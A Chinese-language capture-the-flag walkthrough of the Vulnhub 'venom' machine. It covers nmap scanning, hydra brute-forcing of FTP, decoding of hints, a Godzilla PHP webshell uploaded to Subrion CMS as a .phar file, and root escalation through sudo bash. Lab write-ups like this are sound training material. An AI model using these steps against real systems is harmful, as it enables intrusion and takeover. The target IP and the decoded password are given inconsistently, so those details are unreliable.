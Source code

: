 ```yaml
---
title: venom 打靶思路详解（vulnhub）
url: https://www.freebuf.com/defense/394169.html
clipped_at: 2024-03-14 11:33:30
category: default
tags: 
 - www.freebuf.com
---
```


# venom 打靶思路详解（vulnhub）

## 第一步：信息收集

```bash
nmap -sn 192.168.31.0/24
```

确定靶机 IP 为 192.168.31.105

再次使用 nmap 对靶机 IP 进行详细扫描

```bash
nmap -p- -sV -sT -O 192.168.31.186
```

结果如下

![image](assets/1710387210-3d446d4b32a19020d93a47d41fd69959.png)

## 第二步：WEB 渗透

访问 http://192.168.31.186/

![image](assets/1710387210-10d7981104f1e448d10b2f79de260dae.png)

发现是 apache 的初始界面

使用 dirb 扫描目录

```bash
dirb http://192.168.31.186/
```

![image](assets/1710387210-7075ee6dcd235da458ea70eb23e74c95.png)  
什么都没有

查看源码发现

![image](assets/1710387210-ab6b46cad199631ffa29765d1daabd37.png)

```bash
5f2a66f947fa5690c26506f66bde5c23
```

交给 hashid 查看一下

```bash
hashid 5f2a66f947fa5690c26506f66bde5c23
```

![image](assets/1710387210-113ac63235dbbca117c4da64d4096b52.png)

感觉就是 md5 了找一个在线网站解密一下

![image](assets/1710387210-32b285e772ee477d31297a5b471f6ff5.png)

解密结果为 hostinger，猜测为用户名

## 第三步：FTP 渗透

用命令连接 ftp

```bash
ftp 192.168.31.186
```

![image](assets/1710387210-dc054f3c509c75e68b78731744b3f79c.png)

可以看到用户正确，使用 cewl 生成一份字典

```bash
cewl http://192.168.31.186/ -w password.txt
```

然后使用 hydra 进行爆破

```bash
hydra -l hostinger -P password.txt -t 5 -vV -o jg.txt -e ns 192.168.31.186 ftp
```

![image](assets/1710387210-528e653f043b1b4d50d34966bbe3b13d.png)

爆破出来发现密码为 hostinger

登入 ftp，查看内容

![image](assets/1710387210-3b929f173dc052718e8031414bdc7361.png)

进入 files 目录，查看

![image](assets/1710387210-c5d31114e522896186b77b59522f9cd9.png)

发现有 hinit.txt 文件，使用 get 命令下载下来，查看

![image](assets/1710387210-8a2eab1ee248ec16b993f2d1786c879d.png)

## 第四步：密码破解

```bash
内容为：

Hey there... 

T0D0 --

* You need to follow the 'hostinger' on WXpOU2FHSnRVbWhqYlZGblpHMXNibHBYTld4amJWVm5XVEpzZDJGSFZuaz0= also aHR0cHM6Ly9jcnlwdGlpLmNvbS9waXBlcy92aWdlbmVyZS1jaXBoZXI=
* some knowledge of cipher is required to decode the dora password..
* try on venom.box
password -- L7f9l8@J#p%Ue+Q1234 -> deocode this you will get the administrator password 


Have fun .. :)



翻译为：
嘿。。。



T0D0--



*您需要遵循 WXpOU2FHSnRVbWhqYlZGblpHMXNibHBYTld4amJWVm5XVEpzZDJGSFZuaz0=也是 aHR0cHM6Ly9jcnlwdGlpLmNvbS9waXBlcy92aWdlbmVyZS1jaXBoZXI=上的“hostinger”

*解码 dora 密码需要一些密码知识。。

*试试 venom.box

暗语 L7f9l8@J#p%Ue+Q1234->deocode 这个你会得到管理员密码




玩得高兴
```

内容里有两处字符串

```bash
WXpOU2FHSnRVbWhqYlZGblpHMXNibHBYTld4amJWVm5XVEpzZDJGSFZuaz0=

aHR0cHM6Ly9jcnlwdGlpLmNvbS9waXBlcy92aWdlbmVyZS1jaXBoZXI=
```

一般这个格式都是 Base64 加密的，那就解密

![image](assets/1710387210-55e6166146b3719720b5506beb50706b.png)

得到了两个结果

```bash
standard vigenere cipher  翻译为  标准 vigenere 密码

https://cryptii.com/pipes/vigenere-cipher
```

访问 https://cryptii.com/pipes/vigenere-cipher 这是一个解密网站

![image](assets/1710387210-c930b9018426341b92bb400eb1ac1715.png)  
我把暗语输入进去，得到了密码 E7r9t8@Q#h% Hy+M1234

然后根据他的提示更改 hosts 文件，将域名 venom.box 与 ip 对应

![image](assets/1710387210-7cb3caad96f41b324f3d520484ca49f9.png)

## 第五步：再次 WEB 渗透

访问 http://venom.box/

![image](assets/1710387210-9ea0b4d0801809999400673bde80dea8.png)

可以看到是由 Subrion CMS 搭建的，那直接搜索该 cms 后台地址  
![image](assets/1710387210-81b7e36b577308c8fc95803b44b1d783.png)  
有意外收获，那就根据文章访问地址 http://venom.box/panel/uploads/

![image](assets/1710387210-4793dd648bb227b42eb7978bc28c4aa4.png)

使用 dora 和 N7w9j8@Y#i% Cm+S1234 登入，直接到达文件上传点，根据文章，我通过哥斯拉生成一个 php 的 webshell，将后缀名改为 phar 上传

![image](assets/1710387210-c36c8994d9cb1cc8a43036c1fca22268.png)

然后使用哥斯拉连接

![image](assets/1710387210-ab3189386f635d05c33c519e94999832.png)

## 第六步：后渗透

通过查看“/var/www/html/subrion/backup/.htaccess”文件，获得了一些信息

![image](assets/1710387210-a1c4ce4d458e9cc658866ca835c73ad2.png)

```bash
allow from all
You_will_be_happy_now :)
FzN+f2-rRaBgvALzj*Rk#_JJYfg8XfKhxqB82x_a
```

进入 SuperTerminal 模块，点击 start

查看 /etc/passwd 文件

!\[su-1 (2)\](./assets/su-1 (2).png)

因为 linux 普通用户的 uid 为 500-60000，所以可以推断出“FzN+f2-rRaBgvALzj\*Rk#\_JJYfg8XfKhxqB82x\_a”为 nathan 用户的密码

所以登入 nathan 用户

```bash
su nathan
```

产看权限

```bash
sudo -l
```

![image](assets/1710387210-afd67b03a5df61e3622812acec0cef22.png)

发现为 root 权限，但禁止使用 su 命令

那么我们提权

```bash
sudo /bin/bash
```

![image](assets/1710387210-1c57daaa19740f4c622d0a95c0978de8.png)

成功！

然后就是查看 flag 了

![image](assets/1710387210-88baf0d850dd15b050c2f4df8d8e3467.png)

至此完结，撒花。
